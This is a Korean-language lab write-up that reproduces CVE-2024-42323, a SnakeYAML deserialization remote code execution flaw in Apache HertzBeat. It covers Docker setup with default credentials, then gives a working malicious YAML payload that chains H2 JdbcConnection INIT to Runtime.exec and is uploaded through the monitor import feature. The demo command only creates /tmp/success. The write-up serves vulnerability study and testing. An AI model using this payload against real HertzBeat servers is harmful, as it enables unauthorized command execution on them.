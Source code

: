 ### Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)

#### 요약

Apache HertzBeat는 오픈소스 실시간 모니터링 및 경고 도구로, 운영 체제, 미들웨어, 데이터베이스 등을 웹 인터페이스를 통해 모니터링할 수 있습니다. 버전 1.6.0 이전의 HertzBeat는 YAML 파일을 파싱할 때 취약한 SnakeYAML 라이브러리를 사용하고 있습니다. 이로 인해, 인증된 사용자가 /api/monitors/import 또는 /api/alert/defines/import API를 통해 새로운 모니터링 타입을 임포트할 때 조작된 YAML 파일을 업로드하면 신뢰되지 않은 객체가 역직렬화되며, 원격 코드 실행(RCE)이 발생할 수 있습니다. 



------

#### 환경 구축

터미널에서 다음 명령어로 취약한 HertzBeat 1.4.4 버전을 실행합니다:

`docker compose up -d`

브라우저에서 http://<your-ip>:1157/dashboard로 접속할 수 있으며, 기본 로그인 정보는 다음과 같습니다:

![스크린샷 2025-04-26 오후 7.43.51](/Users/hansohui/Library/Application Support/typora-user-images/스크린샷 2025-04-26 오후 7.43.51.png)

![스크린샷 2025-04-26 오후 7.55.00](/Users/hansohui/Library/Application Support/typora-user-images/스크린샷 2025-04-26 오후 7.55.00.png)

- 아이디: admin
- 비밀번호: hertzbeat



#### 취약점 재현 (공격 설명)

##### 1단계: 악성 YAML 파일 생성

파일명은 반드시 .yaml 확장자를 가져야 하며, 아래처럼 생성합니다.

`!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/success\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]`

![스크린샷 2025-04-27 오전 3.21.59](/Users/hansohui/Library/Application Support/typora-user-images/스크린샷 2025-04-27 오전 3.21.59.png)

- SnakeYAML은 II로 시작되는 Java 객체를 역직렬화합니다.
- 위 페이로드는 **org.h2.jdbc.JdbcConnection 객체를 생성**하며, 내부적으로 **H2 데이터베이스의 INIT 명령어**를 통해 시스템 명령어(touch /tmp/success)를 실행하게 만듭니다.
- 결국 Runtime.getRuntime().exec(...)로 시스템 명령이 실행되어 **RCE(원격 코드 실행)** 가 발생합니다.



##### 2단계: YAML 파일 업로드

HertzBeat 대시보드에 로그인 후, 모니터링 설정 화면으로 이동합니다.

![스크린샷 2025-04-26 오후 8.03.19](/Users/hansohui/Library/Application Support/typora-user-images/스크린샷 2025-04-26 오후 8.03.19.png)



1. "import" 버튼을 클릭한다.
2. 위에서 만든 악성 YAML 파일을 업로드한다.



##### 3단계: 코드 실행 확인

파일이 업로드되면서 SnakeYAML이 역직렬화를 수행하고, 내부에서 명령어가 실행됩니다.

페이로드의 경우, /tmp/success 파일을 생성하므로, 다음 명령어로 확인할 수 있습니다:

`docker exec -t <컨테이너 ID> ls /tmp`

![스크린샷 2025-04-27 오전 12.55.07](/Users/hansohui/Library/Application Support/typora-user-images/스크린샷 2025-04-27 오전 12.55.07.png)





------

#### 참고 자료

- https://forum.butian.net/article/612
- https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
- [https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md](https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml反序列化漏洞(CVE-2024-42323).md)